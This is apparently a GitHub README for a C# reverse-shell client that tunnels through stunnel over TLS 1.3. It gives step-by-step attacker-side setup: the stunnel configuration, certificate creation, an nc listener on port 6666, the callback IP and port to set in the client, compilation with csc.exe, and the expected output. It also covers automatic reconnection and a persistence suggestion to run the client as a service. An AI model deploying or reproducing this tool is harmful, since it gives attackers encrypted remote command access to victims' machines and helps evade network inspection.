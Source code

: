 # STunnell_RevShell
A Reverse shell through Stunnel.
## Architecture
- Client Net4.8 C#
- Server Stunnell4

## Scenario:
Client is the victim, that executes the connection to the server (attacker) that serves stunnell.
Server is the attacker running stunnel4. Follows the configuration:
	
	cat /etc/stunnel/stunnel.conf 
	[nc]
	client = no
	accept = 9999
	connect = 127.0.0.1:6666
	cert = /etc/stunnel/lguerra.pem
	
	 
Here we set stunnel listening for incoming connection on port 9999. This connection is encrypted, then forwards the stream  to port 6666 where we will have nc listening. This flow is not encrypted of course.

## Create the certificate on the server
	
	openssl genrsa -out key.pem 2048
	openssl req -new -x509 -key key.pem -out cert.pem -days 1095
	cat key.pem cert.pem > /etc/stunnel/stunnel.pem
 
Start stunnell

	service stunnel4 start
	
Check if works:

	sudo service stunnel4 status
	● stunnel4.service - LSB: Start or stop stunnel 4.x (TLS tunnel for network daemons)
	     Loaded: loaded (/etc/init.d/stunnel4; generated)
	     Active: active (running) since Tue 2024-05-21 22:11:47 CEST; 5s ago
	       Docs: man:systemd-sysv-generator(8)
	    Process: 133285 ExecStart=/etc/init.d/stunnel4 start (code=exited, status=0/SUCCESS)
	      Tasks: 3 (limit: 9398)
	     Memory: 4.2M (peak: 4.6M)
	        CPU: 241ms
     	CGroup: /system.slice/stunnel4.service
             └─133301 /usr/bin/stunnel4 /etc/stunnel/stunnel.conf


Verify stunnell port is listening:	

    netstat -tulp | grep 9999
	  Active Internet connections (only servers)
	  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	  tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      19338/stunnel4
	  ...
	
Then we can lunch nc to listen on port 6666 as configurated on stunnel

	nc -lvp 6666
	
## Configure the client
Set the Stunnell server and port around line 50:

	//CONFIG THIS: point to the Stunell server
        string IP = "192.168.1.2";
        int PORT = 9999;
## TLS configuration
The client use TLS 1.3 (teseted on windows 11) to connect to the server:

	sslStream.AuthenticateAsClient("host.local", 
		new X509CertificateCollection(), 
		SslProtocols.Tls13, 
		false);

## Compile the client
Youn can compile the client as follows:

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe STunnel_RevShell.cs
	
	
Executing Program.exe we should read the following on the shell

	ver 1.0 Coded by GuerraIT
	ver 1.1 Modified by Zinzloun (support TLS 1.3)
	
	Using the following connection 192.168.1.7:9999
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxxxx ......
The you shoud get a CMD shell on the attacker

## Exception use cases: missing server connection
### nc is not listening on the server
Since the client app can connect to Stunnell but not to nc, it will continue to send requests to the server. You will see on the console the certificate info looping:
	
 	...
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
 	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
	...
At soon as the nc listener is started on the server the client will connect immediately, stopping to print the certificate information; you will get the shell.

## Stunnell service is not reachable
In this case the client will keep to try to connect to Stunnel. You won't get the certificate information printed in this case, only the following line:

	...
	Using the following connection 192.168.1.7:9999
As soon as the client can connect to Stunnel the app will switch to the previous state (looping certificate info printend on the screen). If nc listener is also started on the server you will get a shell.

## Persistence
You can use the app as a service

## Trouble shooting on Kali
If you get the following error re-starting stunnel:

	sudo service stunnel4 status
	...
 	Active: failed (Result: exit-code) since Tue 2024-05-21 22:04:54 CEST; 2min 21s ago
  	stunnel4.service: Failed with result 'exit-code'.
	stunnel4.service: Unit process 52254 (stunnel4) remains running after unit stopped.

It seems a bug on Debian related to the PID file, to solve try to manually kill the related process 

 	sudo kill -9 52254

Then restart the service

		

